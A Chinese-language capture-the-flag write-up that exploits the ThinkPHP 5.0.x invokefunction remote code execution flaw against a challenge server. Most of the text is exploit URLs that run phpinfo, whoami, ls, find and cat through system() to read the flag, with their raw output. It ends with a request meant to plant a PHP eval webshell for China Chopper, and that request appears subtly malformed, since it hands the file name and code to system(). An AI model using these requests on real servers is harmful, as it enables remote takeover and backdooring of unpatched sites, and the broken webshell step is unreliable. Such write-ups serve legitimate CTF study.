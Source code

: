 本题是ThinkPHP版本5的漏洞，
输入 http://220.249.52.133:49352/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
可执行phpinfo。
在最底下发现PHP版本号：
 ThinkPHP V5.0.20 { 十年磨一剑-为API开发设计的高性能框架 } 

可执行命令：
输入http://220.249.52.133:49352/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
返回www-data www-data

因此可以在目录中进行查找：
输入http://220.249.52.133:49352/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls ../../
可查看上级目录下的文件列表
显示：backups cache lib local lock log mail opt run spool tmp www www

经过逐级查看文件列表，找出flag文件：
输入http://220.249.52.133:49352/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat ../../../flag
flag{thinkphp5_rce} flag{thinkphp5_rce}

也可以进行查找：
输入http://220.249.52.133:49352/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "*flag*"
显示：
/proc/sys/kernel/acpi_video_flags /proc/sys/kernel/sched_domain/cpu0/domain0/flags /proc/sys/kernel/sched_domain/cpu0/domain1/flags /proc/sys/kernel/sched_domain/cpu1/domain0/flags /proc/sys/kernel/sched_domain/cpu1/domain1/flags /proc/sys/kernel/sched_domain/cpu10/domain0/flags /proc/sys/kernel/sched_domain/cpu10/domain1/flags /proc/sys/kernel/sched_domain/cpu11/domain0/flags /proc/sys/kernel/sched_domain/cpu11/domain1/flags /proc/sys/kernel/sched_domain/cpu12/domain0/flags /proc/sys/kernel/sched_domain/cpu12/domain1/flags /proc/sys/kernel/sched_domain/cpu13/domain0/flags /proc/sys/kernel/sched_domain/cpu13/domain1/flags /proc/sys/kernel/sched_domain/cpu14/domain0/flags /proc/sys/kernel/sched_domain/cpu14/domain1/flags /proc/sys/kernel/sched_domain/cpu15/domain0/flags /proc/sys/kernel/sched_domain/cpu15/domain1/flags /proc/sys/kernel/sched_domain/cpu16/domain0/flags /proc/sys/kernel/sched_domain/cpu16/domain1/flags /proc/sys/kernel/sched_domain/cpu17/domain0/flags /proc/sys/kernel/sched_domain/cpu17/domain1/flags /proc/sys/kernel/sched_domain/cpu18/domain0/flags /proc/sys/kernel/sched_domain/cpu18/domain1/flags /proc/sys/kernel/sched_domain/cpu19/domain0/flags /proc/sys/kernel/sched_domain/cpu19/domain1/flags /proc/sys/kernel/sched_domain/cpu2/domain0/flags /proc/sys/kernel/sched_domain/cpu2/domain1/flags /proc/sys/kernel/sched_domain/cpu20/domain0/flags /proc/sys/kernel/sched_domain/cpu20/domain1/flags /proc/sys/kernel/sched_domain/cpu21/domain0/flags /proc/sys/kernel/sched_domain/cpu21/domain1/flags /proc/sys/kernel/sched_domain/cpu22/domain0/flags /proc/sys/kernel/sched_domain/cpu22/domain1/flags /proc/sys/kernel/sched_domain/cpu23/domain0/flags /proc/sys/kernel/sched_domain/cpu23/domain1/flags /proc/sys/kernel/sched_domain/cpu24/domain0/flags /proc/sys/kernel/sched_domain/cpu24/domain1/flags /proc/sys/kernel/sched_domain/cpu25/domain0/flags /proc/sys/kernel/sched_domain/cpu25/domain1/flags /proc/sys/kernel/sched_domain/cpu26/domain0/flags /proc/sys/kernel/sched_domain/cpu26/domain1/flags /proc/sys/kernel/sched_domain/cpu27/domain0/flags /proc/sys/kernel/sched_domain/cpu27/domain1/flags /proc/sys/kernel/sched_domain/cpu28/domain0/flags /proc/sys/kernel/sched_domain/cpu28/domain1/flags /proc/sys/kernel/sched_domain/cpu29/domain0/flags /proc/sys/kernel/sched_domain/cpu29/domain1/flags /proc/sys/kernel/sched_domain/cpu3/domain0/flags /proc/sys/kernel/sched_domain/cpu3/domain1/flags /proc/sys/kernel/sched_domain/cpu30/domain0/flags /proc/sys/kernel/sched_domain/cpu30/domain1/flags /proc/sys/kernel/sched_domain/cpu31/domain0/flags /proc/sys/kernel/sched_domain/cpu31/domain1/flags /proc/sys/kernel/sched_domain/cpu32/domain0/flags /proc/sys/kernel/sched_domain/cpu32/domain1/flags /proc/sys/kernel/sched_domain/cpu33/domain0/flags /proc/sys/kernel/sched_domain/cpu33/domain1/flags /proc/sys/kernel/sched_domain/cpu34/domain0/flags /proc/sys/kernel/sched_domain/cpu34/domain1/flags /proc/sys/kernel/sched_domain/cpu35/domain0/flags /proc/sys/kernel/sched_domain/cpu35/domain1/flags /proc/sys/kernel/sched_domain/cpu4/domain0/flags /proc/sys/kernel/sched_domain/cpu4/domain1/flags /proc/sys/kernel/sched_domain/cpu5/domain0/flags /proc/sys/kernel/sched_domain/cpu5/domain1/flags /proc/sys/kernel/sched_domain/cpu6/domain0/flags /proc/sys/kernel/sched_domain/cpu6/domain1/flags /proc/sys/kernel/sched_domain/cpu7/domain0/flags /proc/sys/kernel/sched_domain/cpu7/domain1/flags /proc/sys/kernel/sched_domain/cpu8/domain0/flags /proc/sys/kernel/sched_domain/cpu8/domain1/flags /proc/sys/kernel/sched_domain/cpu9/domain0/flags /proc/sys/kernel/sched_domain/cpu9/domain1/flags /proc/kpageflags /sys/devices/virtual/net/eth0/flags /sys/devices/virtual/net/lo/flags /sys/devices/platform/serial8250/tty/ttyS0/flags /sys/devices/platform/serial8250/tty/ttyS1/flags /sys/devices/platform/serial8250/tty/ttyS2/flags /sys/devices/platform/serial8250/tty/ttyS3/flags /sys/devices/platform/serial8250/tty/ttyS4/flags /sys/devices/platform/serial8250/tty/ttyS5/flags /sys/devices/platform/serial8250/tty/ttyS6/flags /sys/devices/platform/serial8250/tty/ttyS7/flags /sys/devices/platform/serial8250/tty/ttyS8/flags /sys/devices/platform/serial8250/tty/ttyS9/flags /sys/devices/platform/serial8250/tty/ttyS10/flags /sys/devices/platform/serial8250/tty/ttyS11/flags /sys/devices/platform/serial8250/tty/ttyS12/flags /sys/devices/platform/serial8250/tty/ttyS13/flags /sys/devices/platform/serial8250/tty/ttyS14/flags /sys/devices/platform/serial8250/tty/ttyS15/flags /sys/devices/platform/serial8250/tty/ttyS16/flags /sys/devices/platform/serial8250/tty/ttyS17/flags /sys/devices/platform/serial8250/tty/ttyS18/flags /sys/devices/platform/serial8250/tty/ttyS19/flags /sys/devices/platform/serial8250/tty/ttyS20/flags /sys/devices/platform/serial8250/tty/ttyS21/flags /sys/devices/platform/serial8250/tty/ttyS22/flags /sys/devices/platform/serial8250/tty/ttyS23/flags /sys/devices/platform/serial8250/tty/ttyS24/flags /sys/devices/platform/serial8250/tty/ttyS25/flags /sys/devices/platform/serial8250/tty/ttyS26/flags /sys/devices/platform/serial8250/tty/ttyS27/flags /sys/devices/platform/serial8250/tty/ttyS28/flags /sys/devices/platform/serial8250/tty/ttyS29/flags /sys/devices/platform/serial8250/tty/ttyS30/flags /sys/devices/platform/serial8250/tty/ttyS31/flags /sys/module/scsi_mod/parameters/default_dev_flags /usr/lib/x86_64-linux-gnu/perl/5.24.1/bits/waitflags.ph /usr/share/dpkg/buildflags.mk /usr/local/lib/php/build/ax_check_compile_flag.m4 /usr/include/x86_64-linux-gnu/asm/processor-flags.h /usr/include/x86_64-linux-gnu/bits/waitflags.h /usr/include/linux/tty_flags.h /usr/include/linux/kernel-page-flags.h /usr/bin/dpkg-buildflags /flag /flag

再根据目录找出flag：
输入http://220.249.52.133:49352/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag
flag{thinkphp5_rce} flag{thinkphp5_rce}

也可以写入一句话木马：
输入http://220.249.52.133:49352/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=test.php&vars[1][]=<?php highlight_file(__FILE__);@eval($_POST[sss]);?>
如果成功再用菜刀连接。

